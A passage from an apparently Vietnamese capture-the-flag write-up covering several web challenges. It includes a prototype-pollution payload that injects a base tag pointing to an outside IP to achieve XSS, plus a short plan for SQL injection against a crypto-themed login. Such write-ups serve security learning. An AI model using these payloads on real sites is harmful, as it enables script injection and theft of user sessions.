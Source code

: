 ```php!
http://localhost:8000/
  ?__proto__[children][0][tag]=base
  &__proto__[children][0][attributes][href]=http://172.20.10.3
  &__proto__[children][length]=1
  &__proto__[children][0][children]=0
```

không chứng minh bằng cách cướp Cookie => do ban tổ chức đã reg `url` vậy sẽ chứng minh bằng XSS `alert()`
![image](https://hackmd.io/_uploads/rJcYT5tgxe.png)
![image](https://hackmd.io/_uploads/Ska9T5tgxx.png)
![image](https://hackmd.io/_uploads/rkPl09Yxxe.png)
Như vậy đã thực thi được payload
:::

## Atom Bomb

![image](https://hackmd.io/_uploads/BkGGaTwklx.png)
Bài nay `logic` khá đơn giản chỉ là `click` vào `button` để lấy thông tin
Khi `click` vào thì nó sẽ có hai phương thức `GET` -> `POST`
![image](https://hackmd.io/_uploads/B1-jeOuJxx.png)
Sau đó `POST`
![image](https://hackmd.io/_uploads/Hy5yZdO1eg.png)
Chưa có ý tưởng gì mới

## musicplayer

![image](https://hackmd.io/_uploads/r1m3Estyee.png)

## what the crypto

![image](https://hackmd.io/_uploads/ryvu05Kggx.png)
Bài này SQLi lấy key của admin là được

1. Người dùng gửi 1 yêu cầu `post` lên server
2. decode `username` và `passwd`
3. đưa đến `get`
4. Giải mã `usr` và `passwd` và sau đó thực thi query

![image](https://hackmd.io/_uploads/BJ3qBotlxg.png)
đương nhiên có filter ở đây
![image](https://hackmd.io/_uploads/rkLKUjYxge.png)
Test thử lại luộn lí mà server xử lí passwd username

```python==
# Install pycryptodome package first: pip install pycryptodome
from Crypto.Cipher import AES
import base64
import flask
import os
import sqlite3
import tempfile
import urllib

from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto.Random import get_random_bytes
sha = SHA256.new() # tạo 1 hash SHA256
```